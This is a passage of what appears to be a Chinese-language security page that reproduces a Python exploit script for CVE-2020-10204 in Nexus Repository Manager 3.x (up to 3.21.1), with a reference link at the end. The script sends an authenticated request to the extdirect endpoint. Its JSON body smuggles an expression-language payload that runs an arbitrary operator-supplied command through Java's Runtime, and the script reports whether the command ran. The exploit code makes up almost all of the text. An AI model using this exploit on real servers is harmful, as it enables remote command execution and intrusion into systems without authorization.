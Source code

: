         print('+ VER: Nexus Repository Manager 3.x OSS / Pro <= 3.21.1                                                   +')
        print('+---------------------------------------------------------------------------------------------------------+')
        sys.exit(0)

    url = sys.argv[1]
    vuln_url = url + "/service/extdirect"
    session = sys.argv[2]
    cmd = sys.argv[3]

    headers = {
        'accept': "application/json",
        'User-Agent': "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36",
        'NX-ANTI-CSRF-TOKEN': "0.856555763510765",
        'Content-Type': "application/json",
        'Cookie': "jenkins-timestamper-offset=-28800000; Hm_lvt_8346bb07e7843cd10a2ee33017b3d627=1583249520; NX-ANTI-CSRF-TOKEN=0.856555763510765; NXSESSIONID="+session+""
    }
    data = """
    {"action":"coreui_Role","method":"create","data":[{"version":"","source":"default","id":"1111","name":"2222","description":"3333","privileges":["$\\\A{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('%s')}"],"roles":[]}],"type":"rpc","tid":89}
    """ % cmd

    r = requests.post(url=vuln_url, headers=headers, data=data, timeout=20)
    if r.status_code == 200:
        if "UNIXProcess" in r.text:
            print ("[+] Command Executed Successfully (Not Echo)")
        else:
            print ("[-] Command Execution Failed")
    else:
        print ("[-] Target Not CVE-2020-10204 Vuln Good Luck")

参考链接
--------

> https://xz.aliyun.com/t/7559
